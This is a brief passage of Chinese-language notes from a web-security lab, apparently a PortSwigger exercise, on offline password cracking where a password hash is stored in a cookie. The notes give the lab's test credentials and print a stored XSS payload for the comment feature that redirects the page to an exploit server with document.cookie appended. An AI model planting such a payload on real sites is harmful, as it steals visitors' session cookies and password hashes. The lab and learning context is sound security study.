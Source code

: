成功登录

### 离线密码破解

自己的凭据: `wiener:peter` 

受害者的用户名: `carlos`

使用上一关的方法，发现不能失效了

![image-20250505215301951](./img/image-20250505215301951.png)

这个实验，密码hash存在cookie中，并且有一个xss漏洞在**评论的功能**

```
<script>document.location='//exploit-0aff009f04439b108145ddb00105000a.exploit-server.net/'+document.cookie</script>
```

![image-20250506123751075](./img/image-20250506123751075.png)
